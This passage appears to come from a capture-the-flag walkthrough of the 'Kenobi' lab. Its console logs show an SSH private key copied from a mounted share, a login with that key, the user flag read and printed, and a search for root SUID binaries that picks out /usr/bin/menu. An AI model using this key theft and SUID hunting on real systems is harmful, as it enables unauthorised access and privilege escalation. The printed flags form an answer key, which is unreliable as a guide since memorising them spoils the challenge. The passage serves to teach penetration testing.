 ```console
kali@kali:~/Downloads$ cp /mnt/kenobi/tmp/id_rsa .
kali@kali:~/Downloads$ sudo chmod 600 id_rsa
kali@kali:~/Downloads$ ssh -i id_rsa kenobi@10.10.7.34
The authenticity of host '10.10.7.34 (10.10.7.34)' can't be established.
ECDSA key fingerprint is SHA256:uUzATQRA9mwUNjGY6h0B/wjpaZXJasCPBY30BvtMsPI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.7.34' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.8.0-58-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

103 packages can be updated.
65 updates are security updates.


Last login: Wed Sep  4 07:10:15 2019 from 192.168.1.147
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

kenobi@kenobi:~$ cat /home/kenobi/user.txt
d0b0f3f53b6caa532a83915e19224899

```

answer: d0b0f3f53b6caa532a83915e19224899

**What file looks particularly out of the ordinary?**

Do a search of files with the SUID bit set

```console
kenobi@kenobi:~$ find / -user root -perm -4000 2>> /dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
```
ans: /usr/bin/menu
